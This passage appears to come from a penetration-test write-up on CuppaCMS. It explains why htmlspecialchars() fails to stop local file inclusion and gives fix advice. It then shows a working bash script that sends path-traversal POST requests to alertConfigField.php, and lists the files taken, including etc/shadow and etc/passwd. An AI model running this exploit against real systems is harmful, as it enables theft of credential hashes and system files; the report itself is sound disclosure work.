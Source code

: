 CuppaCMS attempts to sanitise the input using [the built-in htmlspecialchars() function](http://php.net/manual/en/function.htmlspecialchars.php).
This converts the following characters:

| Character | Replacement |
| --------- | ----------- |
| &         | `&amp;`     |
| "         | `&quot;`    |
| '         | `&#039;`    |
| <         | `&lt;`      |
| >         | `&gt;`      |

This may have been an attempt to fix the vulnerability from ExploitDB, but
**LFI is still totally viable with this 'sanitisation'**.

<div class="bs-callout bs-callout-success alert"><div><i class="fa fa-check" aria-hidden="true"></i><p>
Fix: This vulnerability and a few others exist in the most recent version of CuppaCMS at time of reporting. The GitHub page suggests the dev team is slow at responding to security tickets.
<br>
Implementing a WAF in front of the application would effectively mitigate most of these vulnerabilities.
If possible, a CMS with better support options would further minimise risk.
</p></div></div>

Now I know what is happening, I am ready to exploit this vulnerability.

#### Exploiting the vulnerability

The tester discovered an LFI in CuppaCMS which allows extraction of system files.
A script was used in combination with [a post-exploitation list](https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List) to extract system data:

``` bash
#! /bin/bash

while read -r line; do
    encoded=`echo $line | sed "s=/=%2F=g"`
    fname=`echo $line | sed "s=/=_=g"`
    data='$(curl -d "urlConfig=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F$encoded" -X POST http://localhost/administrator/alerts/alertConfigField.php)'
    echo "$data" >> "$fname".txt
done <interestingFiles.txt
```

The tester was able to successfully exfiltrate the following assets:

* bin/nc
* etc/crontab
* etc/fstab
* etc/group
* etc/hosts
* etc/issue
* etc/ldap/ldap.conf
* etc/motd
* etc/network_interfaces
* etc/passwd
* etc/resolv.conf
* etc/shadow
* etc/sysctl.conf
* proc/cpuinfo
* proc/meminfo
